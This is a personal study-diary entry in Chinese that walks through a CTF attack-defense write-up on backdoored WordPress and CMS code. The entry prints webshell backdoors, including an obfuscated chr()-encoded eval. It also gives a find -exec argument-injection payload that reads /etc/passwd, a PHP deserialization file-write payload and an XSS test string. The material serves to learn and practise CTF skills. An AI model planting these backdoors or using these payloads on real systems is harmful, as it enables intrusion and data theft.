







# 20180602
今天把原理复习纲要整理好。

使用GitHub的图床：
> https://raw.githubusercontent.com/TUGOhost/study_note/master/image/图片名

我来试试这个[Typora](https://typora.io/)

这个界面很好看，比较简洁干净。

Typora确实很不错，界面简洁干净，使用操作方便，在这里强烈推荐使用。

一叶飘零师傅分享了他在2018年红帽杯线下的一些经历，打算跟着他的[wp](http://skysec.top/2018/05/27/2018RedHat-AD-Web/)复现一下

### web1

#### 存在后门

用D盾扫了下



然后看了下`index.php`确实存在后门



漏洞出现的地方在:

```php
@eval($_POST['admin']);
```

#### 命令执行

文件路径：

> wp-admin/tools.php

漏洞出现的地方在:



```php
/** WordPress Administration Bootstrap */
$poc="a#s#s#e#r#t"; $poc_1=explode("#",$poc); $poc_2=$poc_1[0].$poc_1[1].$poc_1[2].$poc_1[3].$poc_1[4].$poc_1[5]; @$poc_2($_POST['_']);
```

非常容易能看出

```php
@assert($_POST['_']);
```

跟上一个一样的。

#### 命令执行2

文件路径:

> wp-login.php

漏洞出现的地方:

```php
case 'debug':
        $file = addslashes($_POST['file']);
        system("find /tmp -iname ".escapeshellcmd($file));
        break;
```

按照[官方文档](http://php.net/manual/zh/function.addslashes.php)说明

> addslashes()返回字符串，该字符串为了数据库查询语句等的需要在某些字符前加上了反斜线。这些字符是单引号（*'*）、双引号（*"*）、反斜线（*\*）与 NUL（NULL 字符）。 

只要不出现这些字符，即可不受addlashes()影响

然后发现系统会执行find命令，后面参数可控

测试加上`-or`，发现

```shell
sky@ubuntu:~/Desktop$ find /tmp -iname sth -or a
find: paths must precede expression: a
Usage: find [-H] [-L] [-P] [-Olevel] [-D help|tree|search|stat|rates|opt|exec|time] [path...] [expression]

```

有exec参数

我们尝试

> find /tmp -iname sth -or -exec ls

但是发现会被告知缺少参数，查阅资料可以知道： -exec 参数后面跟的是command命令，它的终止是以;为结束标志的，所以这句命令后面的分号是不可缺少的，考虑到各个系统中分号会有不同的意义，所以前面加反斜杠。 我们尝试 

> find /tmp -iname sth -or -exec ls \;

发现程序会循环打印ls结果

我们加上-quit以只打印一次即可

> find /tmp -iname sth -or -exec ls \; -quit

然后读文件

.jpg)

 最后得到

poc:

> file=sth -or -exec cat /etc/passwd ; -quit

为什么;前不需要加转义符？ 因为escapeshellcmd()[官方手册](http://php.net/manual/zh/function.escapeshellcmd.php)是这样描述的 

```
字符串中可能会欺骗 shell 命令执行任意命令的字符进行转义。 此函数保证用户输入的数据在传送到 exec() 或 system() 函数，或者 执行操作符 之前进行转义。
```

所以经过处理，程序会自动给我们的;加上转义符

```php
<?php
	$file="sth -or -exec cat /etc/passwd ; -quit";
	var_dump(escapeshellcmd($file));
	string(38) "sth -or -exec cat /etc/passwd \; -quit";
```

#### 命令执行3

文件路径

> wp-includes/class-wp-cachefile.php

hhhh，看了师傅写的，表示红帽杯线下不过是个过场，打给那些领导看的。

首先[原题连接](https://github.com/bl4de/security_whitepapers/blob/master/RIPS_PHP_Security_Calendar_2017.md)

简单的说下思路：

1. 首先传入$_COOKIE[‘data’] 
2. 触发**construct()**
3. 触发$data = $this->loadData($data);
4. 触发unserialize($data);
5. 触发**destruct() 
6. 触发createCache() 
7. 最后来到file_put_contents($file, $tpl); 达成任意写文件的目的 

构造

```php
<?php
class Template {
    public $cacheFile = './sky.php';
    public $template = '<?php phpinfo();';
}
$a = new Template();
$data = serialize($a);
echo $data;
```

得到

>  O:8:"Template":2:{s:9:"cacheFile";s:9:"./sky.php";s:8:"template";s:16:"<?php phpinfo();";} 

添加上绕过检测的部分，最后给出payload 

>  a:1:{i:0;O:+8:"Template":2:{s:9:"cacheFile";s:9:"./sky.php";s:8:"template";s:16:"<?php phpinfo();";}} 

简单说明一下，首先利用 

>  a:1:{i:0;..........} 

绕过第一个检测 

>  (substr($data, 0, 2) !== 'O:' 

利用`+`绕过第二个检测 

>  !preg_match('/O:\d:\/', $data) 

### web2

#### 命令执行1

还是用D盾扫描下



`1.php`和`2.php`都存在漏洞

代码如下:

> 'SITE_DOMAINS'                  => '123sadccv=>1)&&($_GET[a]($_GET[b]));exit();$a=array(a', //网站的其他域名

有webshell

> (@_GET[a]($_GET[b]))

触发方式:

> a=system&b=cat /flag

演示下:

```php
<?php
$a='system';
$b='dir';
$a($b);
?>
```

#### 命令执行2

代码如下:

> $_uU=chr(99).chr(104).chr(114);$_cC=$_uU(101).$_uU(118).$_uU(97).$_uU(108).$_uU(40).$_uU(36).$_uU(95).$_uU(80).$_uU(79).$_uU(83).$_uU(84).$_uU(91).$_uU(50).$_uU(93).$_uU(41).$_uU(59);$_fF=$_uU(99).$_uU(114).$_uU(101).$_uU(97).$_uU(116).$_uU(101).$_uU(95).$_uU(102).$_uU(117).$_uU(110).$_uU(99).$_uU(116).$_uU(105).$_uU(111).$_uU(110);$_=$_fF("",$_cC);@$_();

文件为混淆过的小马，结果为



小马为：

> eval($_POST[2]);

>  2=pipinfo();

剩下内容请看[连接](http://skysec.top/2018/05/27/2018RedHat-AD-Web/)

简单的认识了下AWD线下了。

不过红帽杯线下大佬云集，一分多钟就被种了马。

准备看下《无间双龙》。之前就想看的。不过还是想准备下工具之类的。

### XSS练习平台

[XSS练习平台](https://xss.haozi.me)

很有趣的一个xss平台。



想进去，就构造这样的payload

> https://xss.haozi.me/#/?input=<script>alert(1)</script>

这是他的[答案](https://github.com/haozi/xss-demo/issues/1)



这个code就有点麻瓜了，我来解释下吧：

```
对一些特殊字符进行了转义，所以无法从引号中逃逸。但在判断域名时有纰漏，https://www.segmentfault.coma、https://www.segmentfault.com.cn这样的也被认为是正确的域名。只需注册类似segmentfault.com.af （af:阿富汗，cn已经被人注册走了）这样的域名即可。当然我并没有真的去注册，.af只是个例子。 
```

工具也没怎么整理。哎。睡了。